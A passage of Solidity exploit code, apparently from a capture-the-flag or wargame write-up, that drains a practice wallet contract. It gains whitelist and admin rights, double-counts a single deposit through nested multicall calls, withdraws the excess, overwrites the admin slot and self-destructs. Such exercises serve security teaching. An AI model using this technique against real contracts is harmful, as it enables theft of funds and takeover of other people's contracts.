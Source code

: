 ```solidity
        level.proposeNewAdmin(address(this));
        level.addToWhitelist(address(this));

        bytes[] memory deposit_data = new bytes[](1);
        deposit_data[0] = abi.encodeWithSelector(level.deposit.selector);

        bytes[] memory data = new bytes[](2);
        data[0] = deposit_data[0];
        data[1] = abi.encodeWithSelector(level.multicall.selector,deposit_data);
        level.multicall{value:0.001 ether}(data);

        level.execute(msg.sender, 0.002 ether, "");
        level.setMaxBalance(uint256(uint160(msg.sender)));
        
        selfdestruct(payable(msg.sender));
    }
}
```

![](https://moe.photo/images/2023/07/17/image-20230717221415925.png)

